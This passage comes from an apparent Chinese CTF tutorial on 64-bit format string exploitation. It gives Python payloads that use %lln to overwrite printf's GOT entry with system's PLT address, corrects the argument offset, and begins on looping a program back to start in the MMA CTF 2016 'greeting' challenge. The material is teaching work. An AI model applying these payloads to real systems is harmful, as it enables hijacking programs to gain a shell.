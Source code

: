 由于64位下用户可见的内存地址高位都带有\x00(64位地址共16个16进制数)，所以使用之前构造payload的方法显然不可行，因此我们需要调整一下payload，把地址放到payload的最后。

由于地址中带有\x00，所以这回就不能用%hhn分段写了，所以构造payload构造如下

```python
    offset = 6
    printf_got = 0x00601020
    system_plt = 0x00400460

    payload = "%" + str(system_plt) + "c%6$lln" + p64(printf_got)
```

运行一下发现程序崩溃，实际上`"%" + str(system_plt) + "c"`为第6个参数，`"%6$lln"`为第7个参数，`p64(printf_got)`为第8个参数。
所以这里offset应该为8，另外，第六个参数应当为地址长度的倍数，所以正确的payload为：

```python
    offset = 6
    printf_got = 0x00601020
    system_plt = 0x00400460

    payload = "a%" + str(system_plt-1) + "c%8$lln" + p64(printf_got)
    # 这里需要确保第8个参数为printf_got,第六个参数为修改的整型值，%c由unsigned int得到char，前面的a填充一个字符位，所以system_plt-1
```

![Alt](img/format_x86-64(5).png)

## 使用格式化字符串漏洞使程序无限循环

程序存在循环时，可以利用格式化字符串漏洞getshell，程序中不存在循环的情况下，除了通过ROP技术劫持函数返回到start，也可以通过格式化字符串漏洞实现这一点。

例，`~/MMA CTF 2nd 2016-greeting/greeting`

程序很简单，存在明显的格式化字符串漏洞

![Alt](img/format-1.png)
